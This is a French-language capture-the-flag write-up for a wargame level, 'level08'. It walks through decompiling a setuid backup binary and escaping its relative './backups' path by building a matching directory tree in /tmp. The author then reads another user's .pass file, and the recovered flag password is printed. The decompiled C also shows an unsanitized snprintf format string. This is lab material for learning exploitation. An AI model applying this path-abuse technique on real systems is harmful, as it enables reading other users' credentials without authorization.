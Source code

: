 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1008(level08) gid=1008(level08) groups=1008(level08),100(users)
/home/users/level08
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
```

Je trouve un binaire `level08`, que je tente d'éxecuter ainsi qu'un dossier `backups`:

```bash
$ cd backups/
$ ls -la
total 0
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
$ cat .log
$
$ cd ..
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
$ ./level08 /backups/.log
ERROR: Failed to open /backups/.log
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=fb42ad07-6308-45df-b8f7-fe3953c56ac1#BinaryNinja=305) en recoupant avec les compilateurs qui marchent et l'ASM :

```c
void log_wrapper(FILE *file, char *msg, char *filename)
{
    char buf[264];

    strcpy(buf, msg);
    snprintf(&buf[strlen(buf)], 254 - strlen(buf), filename);

    buf[strcspn(buf, "\n")] = 0;

    fprintf(file, "LOG: %s\n", buf);
}

int main(int ac, char **av)
{
    FILE *log;
    FILE *file;
    int fd;
    char c;
    char path[104];

    c = -1;
    fd = -1;

    if (ac != 2) 
    {
        printf("Usage: %s filename\n", *av);
    }

    log = fopen("./backups/.log", "w");
    if (!log)
    {
        printf("ERROR: Failed to open %s\n", "./backups/.log");
        exit(1);
    }

    log_wrapper(log, "Starting back up: ", av[1]);

    file = fopen(av[1], "r"); // <--------------2 creating a /home/.../.pass file in /tmp/backups to circumvent permissions allows getting the pass
    if (!file)
    {
        printf("ERROR: Failed to open %s\n", av[1]);
        exit(1);
    }

    strcpy(path, "./backups/");
    strncat(path, av[1], 99 - strlen(path));
    fd = open(path, 193, 432LL);
    if (fd < 0)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", av[1]);
        exit(1);
    }

    while ((c = fgetc(file)) != -1) // <--------1 reads the file passed as arg and write to a file named the same in ./backups
        write(fd, &c, 1uLL);

    log_wrapper(log, "Finished back up ", argv[1]);
    fclose(file);
    close(fd);
    return 0;
}
```

Comme dans le précédent niveau, je n'observe pas spécialement de fonction vulnérable, cependant, en analysant ce que fais le programme je note qu'il :

- Prend en argument le nom d'un fichier
- Le lit
- L'écrit dans un fichier dans le dossier `./backups` (celui où je me trouve donc, puisque path relatif)
- Si le fichier n'existe pas dans le dossier `./backups`, le backup échoue
- Si le fichier existe, le backup réussis et le fichier dans `./backups` et donc actualisé par le binaire

Naturellement, j'essaye donc de créer un fichier `.pass` dans `backups` :

```bash
$ cd backups
$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

Or, je n'ai pas les droits. Cependant, je note que le dossier backups utilisé est relatif à l'endroit où le binaire est exécuté, et j'ai les droits d'écrire dans `/tmp` dans la VM, facile :

```bash
$ cd /tmp
$ mkdir -p ./backups/home/users/level09/
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```



